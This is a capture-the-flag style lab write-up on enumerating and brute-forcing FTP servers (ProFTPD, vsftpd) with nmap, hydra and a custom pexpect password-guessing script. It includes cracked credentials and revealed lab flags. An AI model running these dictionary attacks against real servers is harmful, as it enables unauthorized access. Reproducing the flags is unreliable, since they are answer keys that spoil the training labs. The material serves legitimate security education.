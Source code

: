 # 🔬FTP Enum

**`FTP`** (**F**ile **T**ransfer **P**rotocol) - a *client-server* protocol used to transfer files between a network using TCP/UDP connections.

It requires a command channel and a data channel.

Default FTP port is **`21`**, opened when FTP is activated for sharing data.

```bash
sudo nmap -p21 -sV -sC -O <TARGET_IP>
```

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.com/challengedetails?cid=518)
>
>  - Target IP: `192.217.238.3`
>  - Enumeration of [ProFTP](http://www.proftpd.org/) server

```bash
ip -br -c a
	eth1@if170718   UP   192.217.238.2/24
```

- Target IP is `192.217.238.3`

```bash
nmap 192.217.238.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.217.238.3
```

```bash
21/tcp open  ftp     ProFTPD 1.3.5a
[...]
Service Info: OS: Unix
```

![nmap -p21](.gitbook/assets/image-20230215114930223.png)

> 📌 FTP server version is `ProFTPD 1.3.5a`.

### [ftp](https://linux.die.net/man/1/ftp)

- Try `anonymous:anonymous` login

```bash
ftp 192.217.238.3
# anonymous login failed
```

- Use `hydra` with some users/passwords word lists to check if any credentials work with the ftp server 

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/da
ta/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp
```

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.217.238.3:21/
[21][ftp] host: 192.217.238.3   login: sysadmin   password: 654321
[21][ftp] host: 192.217.238.3   login: rooty   password: qwerty
[21][ftp] host: 192.217.238.3   login: demo   password: butterfly
[21][ftp] host: 192.217.238.3   login: auditor   password: chocolate
[21][ftp] host: 192.217.238.3   login: anon   password: purple
[21][ftp] host: 192.217.238.3   login: administrator   password: tweety
[21][ftp] host: 192.217.238.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
```

![hydra user:password attack](.gitbook/assets/image-20230215115946164.png)

> 📌 Found credentials are:
>
> `sysadmin:654321`
> `rooty:qwerty`
> `demo:butterfly`
> `auditor:chocolate`
> `anon:purple`
> `administrator:tweety`
> `diag:tigger`

- Use [nmap ftp-brute script](https://nmap.org/nsedoc/scripts/ftp-brute.html) to find the `sysadmin`'s password

```bash
echo "sysadmin" > users
```

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 23 guesses in 6 seconds, average tps: 3.8
```

- Extract the 7 flags hidden on the server by logging in to the `ftp` server with each found user

```bash
ftp 192.217.238.3

ftp> ls
ftp> get secret.txt
ftp> exit

root@attackdefense:~# cat secret.txt 
```

<details>
<summary>Reveal Flag - sysadmin flag is: 🚩</summary>


`260ca9dd8a4577fc00b7bd5810298076`

</details>

<details>
<summary>Reveal Flag - rooty flag is: 🚩</summary>


`e529a9cea4a728eb9c5828b13b22844c`

</details>

<details>
<summary>Reveal Flag - demo flag is: 🚩</summary>


`d6a6bc0db10694a2d90e3a69648f3a03`

</details>

<details>
<summary>Reveal Flag - auditor flag is: 🚩</summary>


`098f6bcd4621d373cade4e832627b4f6`

</details>

<details>
<summary>Reveal Flag - anon flag is: 🚩</summary>


`1bc29b36f623ba82aaf6724fd3b16718`

</details>

<details>
<summary>Reveal Flag - administrator flag is: 🚩</summary>


`21232f297a57a5a743894a0e4a801fc3`

</details>

<details>
<summary>Reveal Flag - diag flag is: 🚩</summary>


`12a032ce9179c32a6c7ab397b9d871fa`

</details>

## Lab 2

>  🔬 [VSFTPD Recon: Basics](https://attackdefense.com/challengedetails?cid=519)
>
>  - Target IP: `192.119.169.3`
>  - Enumeration of [vsftpd](https://security.appspot.com/vsftpd.html) server

```bash
ip -br -c a
	eth1@if170803   UP  192.119.169.2/24
```

- Target IP is `192.119.169.3`

```bash
nmap 192.119.169.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.119.169.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

![](.gitbook/assets/image-20230215130759212.png)

> 📌 FTP server version `vsftpd 3.0.3`

- Use [nmap ftp-anon script](https://nmap.org/nsedoc/scripts/ftp-anon.html) to check `anonymous` user login

```bash
nmap --script ftp-anon -p21 192.119.169.3
```

```bash
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
```

> 📌 Anonymous FTP login allowed

```bash
ftp 192.119.169.3
# Use anonymous:anonymous to login
```

```bash
Name (192.119.169.3:root): anonymous
    331 Please specify the password.
Password:
    230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag 
```

<details>
<summary>Reveal Flag: 🚩</summary>


`4267bdfbff77d7c2635e4572519a8b9c`

</details>

------

## Lab 3

>  🔬 [VSFTPD Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=520)
>
>  - Target IP: `192.14.30.3`
>  - Dicotionary attack on `vsftpd` server
>  - *FTP server terminates the session after 3 attemps*

```bash
ip -br -c a
	eth1@if170888   UP   192.14.30.2/24 
```

- Target IP is `192.14.30.3`

```bash
nmap 192.14.30.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.14.30.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

```bash
echo "billy" > users

nmap --script ftp-brute --script-args userdb=/root/users -p21 192.14.30.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     billy:carlos - Valid credentials
|_  Statistics: Performed 78 guesses in 55 seconds, average tps: 1.5
```

> 📌 *billy*'s password is `carlos`

- A custom script to attemp the logins is required if automated dictionary attack do not work, since the server terminates the sessions after 3 login attempts.
- `e.g.` python script:

```bash
nano billy.py
```

```python
import pexpect
import sys
username=sys.argv[2]
password_dict=sys.argv[3]

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

itr = 0
# Iterating over dictionary
for password in lines:
	child = pexpect.spawn ('ftp '+sys.argv[1])
	child.expect ('Name .*: ')
	child.sendline (username)
    print "Trying with password: ",password
	child.expect ('Password:')
	child.sendline (password)
	i = child.expect (['Login successful', 'Login failed'])
	if i==1:
		#print('Login failed')
		child.kill(0)
	elif i==0:
		print "Login Successful for ",password
		print child.before
		break
```

```bash
python billy.py 192.14.30.3 billy /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

```bash
Login Successful for  carlos
```

- Fetch the flag using `billy:carlos` credentials

```bash
ftp 192.14.30.3

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag
```

<details>
<summary>Reveal Flag: 🚩</summary>


`c07c7a9be16f43bb473ed7b604295c0b`

</details>

------

